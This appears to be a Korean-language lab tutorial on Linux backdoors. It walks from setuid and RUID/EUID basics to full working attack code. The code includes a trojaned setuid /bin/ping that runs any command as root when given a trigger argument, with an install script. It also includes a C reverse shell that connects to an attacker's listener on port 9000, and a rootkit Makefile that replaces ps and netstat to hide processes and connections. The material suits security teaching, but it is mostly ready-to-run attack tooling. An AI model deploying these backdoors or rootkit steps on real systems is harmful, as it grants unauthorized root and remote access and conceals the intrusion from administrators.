# Linux - Backdoor

정상 인증을 거치지 않고 시스템에 접근

- local backdoor      : 관리자의 권한을 취득
- remote backdoor  : 인증없이 접근


<br>

##### local backdoor      : 관리자의 권한을 취득

구성도



<br>

uid, gid 확인



<br>

UID 를 중복으로 사용할수 있는 옵션 

```
# man useradd 
~
-o, --non-unique
           Allow the creation of a user account with a duplicate (non-unique) UID.(UID 중복 가능) 
           This option is only valid in combination with the -u option.
```



비밀번호는 /etc/shadow에 해시값으로 저장되어 있습니다.

<br>

어떤 사용자도 /etc/shadow에 대한 퍼미션이 존재하지 않음 (단 root 는 제외)



<br>

RUID(Real) , EUID(Effective)

passwd 파일이 관리자의 권한으로 실행될경우 일반 사용



<br>

getuid.c 만들기

```
yum -y install gcc 

vim /root/getuid.c  - ruid ,euid  확인 도구 
#include <stdio.h>

int main()
{
 int ruid,euid;
 ruid = getuid();
 euid = geteuid();

 printf("RUID : %d\n",ruid);
 printf("EUID : %d\n",euid);
 return 0;
}
```

<br>

컴파일 후 실행



<br>

ktest -> setuid 확인 해보기

getuid 에 setuid 를 부여



<br>

ktest 의 홈디렉터리에 복사 



<br>

ktest에서 확인



<br>

getuid_root.c 파일 만들기

- passwd 파일의 동작 원리를 확인
- euid  를 검증하여 root 가 아니면 인자를 못쓰게 만드는 방법

```
vim /root/getuid_root.c
#include <stdio.h>

int main(int argc, char **argv)
{

        int ruid,euid;

        ruid = getuid();
        euid = geteuid();

        if(argc > 1 && ruid !=0)
        {
                printf("%s : root 로만 사용자를 지정할수 있습니다. \n",argv[0]);
                return -1;
        }
        printf("프로 그램 실행\n");
        return 0;
}
```

<br>

컴파일 후 ktest로 복사



<br>

root에서 확인



인자가 있든 없든 잘 실행되는 모습 입니다.

<br>

ktest에서 확인



ktest에서는 인자가 있으면 실행이 되지 않았습니다.

이로써 root 로만 사용자를 지정할 수 있다는 부분을 알 수 있습니다.

<br>

fake_ping.c 파일 만들기

- 가짜 ping 이라는 파일만들어서 root 퍼미션으로 실행 하도록 몰래 만드는 것
- ping  ktest /etc/shadow 파일이 열림

우선 진짜 ping을 백업 해 두겠습니다.



<br>

fake_ping.c 소스 코드 작성 후 컴파일

```
vim /root/fake_ping.c

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
 
int main(int argc, char **argv){
    setuid(0);
 
    if(!strcmp(argv[1],"ktest")){
        system(argv[2]);
        exit(0);
    }
 
    char input_cmd[100];
    int i;
 
    memset(input_cmd, 0, 20);
    strcat(input_cmd,".");
 
    for(i=0; i<argc; i++){
        strcat(input_cmd, argv[i]);
        strcat(input_cmd, " ");
    }
    system(input_cmd);
}
```



<br>

가짜 ping 설치 스크립트 : install.sh 작성 후 실행

```
vim /root/install.sh

if [ -f /bin/.ping ]
then
	echo "이미 설치되어 있습니다."
else
	gcc -o fake_ping fake_ping.c || exit
	mv /bin/ping /bin/.ping
	mv fake_ping /bin/ping 
  chmod 4755 /bin/ping
fi
```


<br>

ping 이 잘 동작되는데 인자가 ktest 가 따라오면 root 퍼미션을 가지게 실행





<br>

<br>

<br>

##### remote backdoor  : 인증없이 원격  접근 

구성도



<br>

백도어+쉘 소스코드 : revershell.c 만든후 컴파일

```
vim /root/revershell.c

#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <unistd.h>
#include <errno.h>
int main(int argc, char* argv[])
{
        struct sockaddr_in server_addr;
        int server_sock;
        int client_len;
        char buf[80];
        char rbuf[80];
        char *cmd[2] = {"/bin/sh",(char *)0};
        server_sock = socket(AF_INET, SOCK_STREAM, 6);
        server_addr.sin_family =  AF_INET;
        server_addr.sin_addr.s_addr = inet_addr("172.16.0.140");
        server_addr.sin_port = htons(atoi("9000"));
        client_len =  sizeof(server_addr);
        connect(server_sock,(struct sockaddr *) &server_addr, client_len);
        dup2(server_sock, 0);
        dup2(server_sock, 1);
        dup2(server_sock, 2);
        execve("/bin/sh", cmd, 0);
        return 0;
}
```



<br>

공격자 -> nc -l 9000 실행

```
[root@localhost ~]# nc -l 9000 
```

<br>

공격대상 -> revershell 실행

```
[root@localhost ~]# ./revershell
```

<br>

공격자 -> 확인



공격자 에게  공격 대상과 연결 되면서 사용할 shell 이 제공됨  remote backdoor + shell 

<br>

공격대상-> backdoor check

```
프로세스 확인
# ps -ef

포트확인
# netstat -antup
```



<br>

공격대상 -> 실행된 프로세스를 노출시키지 않도록 은닉



<br>

공격대상 -> ps, netstat, ls 파일 백업



<br>

공격대상 -> rootkit 디렉터리 출력시에 보이지 않도록 할 목록 파일



<br>

 make : gcc 관련 내용을 정의 - makefile

```
vim ./Makefile

```bash
rootkit 디렉터리 출력시에 보이지 않도록 할 목록 파일
[root@localhost white_rootkit]# touch /root/white_rootkit/.white_psfile
[root@localhost white_rootkit]# touch /root/white_rootkit/.white_netfile

 make : gcc 관련 내용을 정의 - makefile

[root@localhost white_rootkit]# pwd
/root/white_rootkit

[root@localhost white_rootkit]# ls
Makefile  white_backc.c  white_backs.c  white_ls.c  white_net.c  white_ps.c
[root@localhost white_rootkit]# vim Makefile 
default:
	~~gcc -o white_backc white_backc.c
	gcc -o white_backs white_backs.c~~
	gcc -o white_net white_net.c
	gcc -o white_ps white_ps.c

install:
	mv /bin/ps /bin/.ps
	mv /bin/netstat /bin/.netstat
	mkdir /dev/white_root
	cp .white_netfile /dev/white_root/.white_netfile
	cp .white_psfile /dev/white_root/.white_psfile
	~~cp white_backc /.white_backc~~
	cp white_ps /bin/ps
	cp white_net /bin/netstat

~~white_backc : white_backc.c
	gcc -o white_backc white_backc.c
white_backs : white_backs.c
	gcc -o white_backs white_backs.c
white_net : white_net.c
	gcc -o white_net white_net.c
white_ps : white_ps.c
	gcc -o white_ps white_ps.c~~

uninstall:
	mv /bin/.ps /bin/ps
	mv /bin/.netstat /bin/netstat
 	~~rm -rf /dev/white_root
	rm -rf /.white_backc~~

clean:
	rm -rf white_ps white_net
```

make (default) : 컴파일



make install : Makefile 의 install 부분 



<br>

은닉 -> netstat

```
vim /dev/white_root/.white_netfile

sh            (sh 말고 pid번호를 넣어도 은닉 가능합니다.)
```

<br>

프로세스 확인



netstat -antup 은닉 성공 입니다.

<br>

pid번호로 은닉 했을 때



<br>

은닉 - > ps -ef

```
vim /dev/white_root/.white_psfile 

3947
```

<br>

프로세스 확인



ps -ef도 은닉 성공 입니다.

<br>